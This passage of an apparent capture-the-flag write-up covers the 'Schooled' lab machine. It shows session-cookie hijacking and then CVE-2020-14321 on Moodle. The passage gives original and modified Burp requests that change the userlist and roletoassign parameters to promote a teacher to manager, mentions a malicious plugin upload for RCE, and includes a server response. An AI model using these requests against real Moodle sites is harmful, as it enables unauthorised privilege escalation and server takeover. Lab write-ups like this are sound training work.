 
Change to the new MoodleSession cookie (rktqego8s482a68uaog926rpjl) in the Storage Settings (Shift + F9), go to dashboard
to update and we are now logged in as Manuel Phillips.


4. Looking around for vulnerabilities as a teacher I came across CVE-2020-14321, where we can escalate the teacher to
a manager, and then upload a malicious plugin to get RCE. Sound good to me!

First we need to find the manager, this can we simply do by going to your course (Maths) and press 'Participants'.
In the top right we find a cog, press that and in the bottom of the drop-down-list you see the option 'Other Users'.
Looking at Other Users we find 'Lianne Carter' with the Role 'Manager (Assigned at site level)'.

Go back enroll Lianne as a new student for the maths class. Before you press 'Enroll user', start up Burp Suite
and capture the GET request - send it to the repeater.

ORIGINAL REQUEST:
  GET /moodle/enrol/manual/ajax.php?mform_showmore_main=0&id=5&action=enrol&enrolid=10&sesskey=KdOADdOd7H&_qf__enrol_manual_enrol_users_form=1&mform_showmore_id_main=0&userlist%5B%5D=25&roletoassign=1&startdate=4&duration= HTTP/1.1
  Host: moodle.schooled.htb
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
  Accept: */*
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate
  Content-Type: application/json
  X-Requested-With: XMLHttpRequest
  Connection: close
  Referer: http://moodle.schooled.htb/moodle/user/index.php?id=5
  Cookie: MoodleSession=rktqego8s482a68uaog926rpjl

- Change the 'userlist'-parameter from 25 (ID of Lianne) to Manuel's ID, 24.
- Change the 'roletoassign' from 5, which I assume is student, to 1 - which is manager.
- Send the new request

MODIFIED REQUEST:
  GET /moodle/enrol/manual/ajax.php?mform_showmore_main=0&id=5&action=enrol&enrolid=10&sesskey=KdOADdOd7H&_qf__enrol_manual_enrol_users_form=1&mform_showmore_id_main=0&userlist%5B%5D=24&roletoassign=1&startdate=4&duration= HTTP/1.1
  Host: moodle.schooled.htb
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
  Accept: */*
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate
  Content-Type: application/json
  X-Requested-With: XMLHttpRequest
  Connection: close
  Referer: http://moodle.schooled.htb/moodle/user/index.php?id=5
  Cookie: MoodleSession=rktqego8s482a68uaog926rpjl

RESPONSE:
  HTTP/1.1 200 OK
  Date: Fri, 07 May 2021 13:47:06 GMT
  Server: Apache/2.4.46 (FreeBSD) PHP/7.4.15
  X-Powered-By: PHP/7.4.15
  Expires: Mon, 20 Aug 1969 09:23:00 GMT
  Cache-Control: no-store, no-cache, must-revalidate
  Pragma: no-cache
  Cache-Control: post-check=0, pre-check=0
  Last-Modified: Fri, 07 May 2021 13:47:07 GMT
  Accept-Ranges: none
  Content-Length: 51
  Connection: close
  Content-Type: application/json; charset=utf-8